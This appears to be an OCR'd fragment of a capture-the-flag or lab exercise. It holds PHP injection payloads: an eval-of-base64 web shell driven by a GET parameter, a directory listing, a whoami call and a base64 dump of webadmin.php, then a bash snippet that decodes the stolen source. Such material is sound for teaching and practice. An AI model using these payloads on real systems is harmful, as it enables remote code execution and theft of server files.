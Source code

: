 1) ________

   ```php
   eval(base64_decode($_GET['lsec']))
   print_r(scandir("/"));
   system("whoami");
   echo(
     base64_encode( 
       file_get_contents("./webadmin.php")
     )
   );
   ```
   
   ```php
   <?php eval(base64_decode($_GET['lsec']));?>
   <?php print_r(scandir("/")); ?>
   <?php system("whoami"); ?>
   <?php echo(base64_encode(file_get_contents("./webadmin.php"))); ?>
   ```
   
   ```bash
   # Decode the base64 into plaintext
   $ base64 -d page.b64 > webadmin.php
   
   # Look at the decoded contents
   $ cat webadmin.php
   <?php
     $ip_hash = hash('sha256', $_SERVER['REMOTE_ADDR'], false);
     session_id($ip_hash);
     session_start();
     check_action();
   ?>
   ...
   ```
